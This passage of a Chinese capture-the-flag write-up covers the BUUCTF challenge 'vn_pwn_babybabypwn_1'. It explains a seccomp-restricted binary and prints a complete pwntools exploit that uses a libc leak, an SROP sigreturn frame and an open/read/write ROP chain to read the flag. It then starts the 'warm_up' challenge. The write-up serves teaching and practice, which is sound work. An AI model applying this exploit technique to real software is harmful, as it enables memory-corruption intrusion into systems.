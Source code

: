 ```C  
  syscall(15LL, &buf);
  return __readfsqword(0x28u) ^ v2;
}
```    
一开始就给了puts函数的真实地址，而且题目还说了是16的环境，给了libc。这里没有溢出，但是有一个syscall，参数是15，查了一下15是rt_sigreturn函数的系统调用号，rt_sigreturn函数对应的就是SROP的手段了。只好现学了一下SROP……   
通过seccomp-tools查看禁用了那些函数  
![](VN1.png)   
会发现禁用了execve函数和mprotect函数，那只能orw了      
思路如下：先接收puts函数的地址，然后计算得出libc基地址libc_base，通过pwntools的SROP利用的相应模块将对应寄存器设置好参数，然后可以直接调用read函数，调用read函数之后直接orw打过去。这里提一下，因为程序开启了pie保护，所以程序中的所有找到的gadget都不能用，用ROPgadget找到的全都不是真实地址，都是一个偏移  
exp如下:
```python  
from pwn import*
context.log_level = 'debug'
context.terminal = ['terminator','-x','sh','-c']
context.arch = 'amd64'
p=remote("node3.buuoj.cn",29463)
#p = process("./vn_pwn_babybabypwn_1")
elf = ELF("./vn_pwn_babybabypwn_1")
libc = ELF("libc-2.23_x64.so")
stack_addr = libc.sym['environ']
p.recvuntil("0x")
puts_addr = int(p.recvline(),16)
libc_base = puts_addr - libc.sym['puts']
log.success("libc_base==>" + hex(libc_base))
libc.address = libc_base
stack_addr = libc.sym['environ']
pop_rdi_ret = 0x0000000000021102 + libc_base
pop_rdx_rsi = 0x00000000001150c9 + libc_base
pop_rdx_ret = 0x0000000000001b92 + libc_base
syscall_addr = 0x00000000000bc375 + libc_base
frame = SigreturnFrame()   # pwntools提供了Sigreturn Frame的构建
frame.rax = constants.SYS_read
frame.rdi = 0
frame.rsi = stack_addr
frame.rdx = 0x200
frame.rsp = stack_addr + 8
frame.rip = syscall_addr
#gdb.attach(p)
payload = str(frame)[8:]
p.send(payload)

orw = "flag" + "\x00"*4 + p64(pop_rdi_ret) + p64(stack_addr) + p64(pop_rdx_rsi) + p64(0) + p64(0) + p64(libc.symbols['open'])
orw += p64(pop_rdi_ret) + p64(3) + p64(pop_rdx_rsi) + p64(0x100) + p64(stack_addr) + p64(libc.symbols['read'])
orw += p64(pop_rdi_ret) + p64(1) + p64(pop_rdx_rsi) + p64(0x100) + p64(stack_addr) + p64(libc.symbols['write'])

p.send(orw)
p.interactive()
```    
设置rsp加8的原因是需要将flag字符串的位置留出来，发送过去的frame通过gdb调试可得，前八个是调用rt_sigreturn函数的，但是由于题中的系统调用号已经是15了，所以前8个去掉  
</br>  
## 0x02  warm_up  
这题和前面那题一开始的回显一模一样，一度怀疑做了两道一样的题    
检查保护   
```shell  
[*] '/home/N0vice/Desktop/BUUCTF/VN/vn_pwn_warmup'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
```